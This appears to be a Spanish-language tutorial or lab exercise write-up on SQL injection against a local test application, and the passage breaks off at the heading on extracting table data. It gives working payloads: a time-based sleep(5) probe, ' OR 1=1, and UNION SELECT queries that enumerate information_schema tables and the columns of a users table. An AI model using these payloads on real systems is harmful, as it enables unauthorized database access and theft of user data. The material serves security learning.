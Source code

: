## Inyecciones basadas en tiempo

## 1. Detectar vulnerabilidad de inyección

Otra forma de interactuar con las inyecciones SQL es a través del tiempo de respuesta. Si aplicamos una inyección basada en el tiempo y funciona, es indicativo de ser vulnerable.

```URL
http://localhost/searchUsers.php?id=1' and sleep(5)-- -
```

Si tras 5 segundos se nos muestra el resultado es indicativo de vulnerabilidad de inyección SQL basada en tiempo.

---
# Querys de Inyección SQL en las URLs

En esta sección se presentan las consultas de inyección SQL utilizadas a través de las URLs para detectar los elementos vulnerables en el servidor web durante el ejercicio.

## 1. Detectar la Base de Datos

Para detectar la base de datos y los posibles datos disponibles, se utilizaron las siguientes inyecciones en la URL:

```sql
' OR 1=1 --
````

Esta inyección fue utilizada en la URL de la aplicación vulnerable para ver si la aplicación permitía ejecutar consultas de SQL maliciosas y obtener respuestas de la base de datos.

## 2. Enumerar las Tablas

Una vez identificada la base de datos, se utilizaron las siguientes inyecciones para enumerar las tablas de la base de datos:

```sql
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = 'nombre_de_base_de_datos' --
```

## 3. Enumerar las Columnas de una Tabla Específica

Después de identificar las tablas, se usaron estas inyecciones para enumerar las columnas de una tabla específica, como la tabla `users`:

```sql
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' --
```

## 4. Obtener los Datos de una Tabla Específica

